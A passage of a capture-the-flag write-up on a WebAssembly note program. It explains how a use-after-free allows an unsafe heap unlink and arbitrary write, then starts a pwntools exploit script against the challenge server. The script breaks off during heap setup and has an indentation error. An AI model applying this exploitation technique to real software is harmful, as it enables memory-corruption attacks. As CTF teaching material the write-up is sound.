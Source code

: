 and also chunks that are not near the top chunk, but that also freed chunks that have another freed chunk next to them 
are consolidated with each other (see 1st and 2nd and 3rd) and are moved into another circular doubly linked list.

So if is possible a unsafe unlink if we can taamper the heap metadata saved into a chunk after the free we can write and win the challenge.
Lukly for us this is possible, since in order to maintain small size of code for the wasm library some checks are not performed.

And since we have a ```UAF``` (the program never null the pointer freed so after the free we can always write into the note)
we can tamper chunk metadata and perform an unsafe unlink in order to write data wherever we want.

This is possible because, since the consolidated chunk need to be moved from one list to another 
(From the list associated with one chunk size to another with another chunk size) the removed chunk need to be 
``` unlinked ``` from one list and so his ``` bk ``` pointer need to be write into the ``` fd->bk ``` value and 
his ``` fd ``` pointer need to be written into the ``` bk->fd ``` value
and so we have an arbitrary write primitive. The only think is that we need to write two time because there is a check for the 
value since we write in both direction what we write need also to be a valid address, so I wasn't able to write all fL4g in
one time but I have exploited two unsafe unlink in order to write fL4g at 0x005016e8

## Exploit

```python
from pwn import *

def print_note(i):
	p.sendlineafter(b'Please choose an option (1, 2, 3, 4)\n',b'1')
	p.sendlineafter(b'Please choose a note (1 to 8 inclusive)\n',f'{i}'.encode())
	p.recvuntil(b'Printing note\n\n')
	res = p.resvuntilS(']=======[ MENU ]=======[\n').replace(']=======[ MENU ]=======[\n','')
	return res

def delete(i):
	p.sendlineafter(b'Please choose an option (1, 2, 3, 4)\n',b'2')
	p.sendlineafter(b'Please choose a note (1 to 8 inclusive)\n',f'{i}'.encode())	

def create_note(i):
	p.sendlineafter(b'Please choose an option (1, 2, 3, 4)\n',b'3')
	p.sendlineafter(b'Please choose a note (1 to 8 inclusive)\n',f'{i}'.encode())	

def write_note(i, data):
	p.sendlineafter(b'Please choose an option (1, 2, 3, 4)\n',b'4')
	p.sendlineafter(b'Please choose a note (1 to 8 inclusive)\n',f'{i}'.encode())
  p.sendlineafter(f'Send note content for note'.encode(),data)

#p = process(argv=["/home/eurus/.wasmtime/bin/wasmtime",'run','-g','chall.wasm'])
#gdb.attach(p)
p=remote('bin.bcactf.com', 49180) 

# arrange the heap to exploit two unsafe unlink
create_note(1)
create_note(2)
create_note(2)
create_note(3)
create_note(4)
create_note(4)
create_note(5)
create_note(6)
create_note(6)
create_note(7)
```